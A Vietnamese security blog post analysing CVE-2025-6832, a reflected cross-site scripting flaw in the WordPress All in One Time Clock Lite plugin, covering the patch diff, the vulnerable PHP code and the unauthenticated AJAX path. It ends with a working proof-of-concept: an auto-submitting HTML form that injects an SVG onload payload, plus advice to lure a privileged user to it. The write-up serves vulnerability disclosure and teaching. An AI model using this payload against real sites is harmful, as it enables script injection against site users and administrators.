 # CVE-2025-6832 Analysis & POC


<!--more-->

**Lỗ hổng Reflected Cross-Site Scripting (XSS)** trong plugin **All in One Time Clock Lite** cho WordPress.
Lỗ hổng xuất phát từ tham số **nonce** ở các phiên bản đến và bao gồm **2.0**, do **xử lý đầu vào không đầy đủ** và **không escape đầu ra**.
Kẻ tấn công (kể cả không xác thực) có thể chèn các đoạn script tùy ý vào trang; những script này sẽ được thực thi khi nạn nhân thực hiện hành động bị thao túng (ví dụ: bấm vào một liên kết).

* **CVE ID**: [CVE-2025-6832](https://www.cve.org/CVERecord?id=CVE-2025-6832)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 2.0
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress All in One Time Clock Lite Plugin](https://wordpress.org/plugins/aio-time-clock-lite/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **All in One Time Clock Lite**: **v2.0** (vulnerable) và **v2.0.1** (patched).
* **Diff tool** - **Meld** hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

Trong phiên bản **vulnerable**, tham số `nonce` được lấy trực tiếp từ `$_POST` mà **không qua bất kỳ sanitization nào**:

```php
$nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;
```

Trong phiên bản **patched**, tham số `nonce` được xử lý bằng [`sanitize_text_field()`](https://developer.wordpress.org/reference/functions/sanitize_text_field/) trước khi sử dụng, ngăn chặn việc chèn mã độc:

```php
$nonce = (isset($_POST["nonce"])) ? sanitize_text_field($_POST["nonce"]) : null;
```

👉 Bản vá bổ sung lớp lọc đầu vào cho biến `nonce`, đảm bảo dữ liệu nhận từ request sẽ được loại bỏ ký tự nguy hiểm trước khi xử lý tiếp.

{{< figure src="diff.png" caption="So sánh thay đổi mã giữa bản vulnerable và bản vá" >}}

### Vulnerable code

Lỗ hổng nằm trong hàm `aio_time_clock_lite_js()` thuộc class `AIO_Time_Clock_Lite_Actions` trong file `aio-time-clock-lite-actions.php`{: .filepath}

```php
public function aio_time_clock_lite_js()
{
    // other logic       
    $nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;

    if (wp_verify_nonce($nonce, 'time-clock-nonce')) {
        // other logic            
    } else {
        echo json_encode(
            [
                "response"     => "failed",
                "message"      => esc_attr_x("Not authorized to perform this action", 'aio-time-clock-lite'),
                "nonce"        => $nonce,
                "clock_action" => $clock_action,
            ]
        );
    }

    wp_reset_postdata();
    die();
}
```

{: file="aio-time-clock-lite-actions.php"}

Hàm `wp_verify_nonce()` so sánh giá trị `$nonce` gửi từ client với giá trị hợp lệ mà server đã sinh ra trước đó bằng hàm `wp_create_nonce()`.

```php
<input type="hidden" name="time-clock-nonce" id="time-clock-nonce" value="<?php echo wp_create_nonce("time-clock-nonce"); ?>">
```

{: file="aio-settings.php"}

Nếu `$nonce` không hợp lệ => nhảy sang nhánh `else` trả về **JSON** báo lỗi chứa `$nonce`.

Click `2 references` ta thấy hàm `public function aio_time_clock_lite_js()` được gọi làm callback cho các action hook:

{{< figure src="ref1.png" caption="Hàm aio_time_clock_lite_js() được gắn vào hai hook Ajax (authenticated & unauthenticated)" >}}

* `wp_ajax_aio_time_clock_lite_js`(authenticated).
* `wp_ajax_nopriv_aio_time_clock_lite_js`(unauthenticated). => Focus

### Sources & Sinks

* **Source**: Tham số `nonce` lấy trực tiếp từ `$_POST` (unauthenticated request).
* **Sink**: Giá trị `nonce` được phản chiếu lại trong `echo json_encode(...)`.

### Flow

1. Gửi POST request (unauthenticated) đến `/wp-admin/admin-ajax.php` với các **params**:

```
action=aio_time_clock_lite_js&nonce=nonce_value
```

2. Callback `aio_time_clock_lite_js()` được gọi
3. Kiểm tra giá trị `nonce` => **invalid**
4. Phản chiếu giá trị `nonce` vào body bằng `echo json_encode(...)`

## Exploit

### Proof of Concept (PoC)

* Tạo trang web chứa form submit:

```html
<form action="http://localhost/wp-admin/admin-ajax.php" method="post">
  <input type="hidden" name="action" value="aio_time_clock_lite_js">
  <input type="hidden" name="nonce" value="<svg onload=alert()>">
</form>
<script>document.forms[0].submit()</script>
```

* Gửi link đến trang web chứa form cho người dùng cho dặc quyền.
* Quan sát việc thực hiện **JavaScript** được tiêm.

{{< figure src="result.png" caption="Result — PoC execution screenshot" >}}

## Conclusion

Lỗ hổng **CVE-2025-6832** trong plugin **All in One Time Clock Lite <= 2.0** cho phép **unauthenticated attacker** khai thác Reflected XSS thông qua tham số `nonce`. Bản vá **2.0.1** đã thêm `sanitize_text_field()` để lọc input, ngăn chặn mã độc được phản chiếu trong JSON response.

**Key takeaways**:

* Luôn **sanitize** và **escape** dữ liệu trước khi trả về response.
* Endpoint mở cho **nopriv (unauthenticated)** cần được xem xét cẩn trọng.
* Reflected XSS thường xuất hiện khi giá trị input được phản chiếu trực tiếp trong output (JSON/HTML).
* **Update plugin** kịp thời là cách đơn giản nhất để giảm thiểu rủi ro.

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress All in One Time Clock Lite <= 2.0 — CVE-2025-6832](https://patchstack.com/database/wordpress/plugin/aio-time-clock-lite/vulnerability/wordpress-all-in-one-time-clock-lite-tracking-employee-time-has-never-been-easier-plugin-2-0-reflected-cross-site-scripting-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-07-cve-2025-6832/  

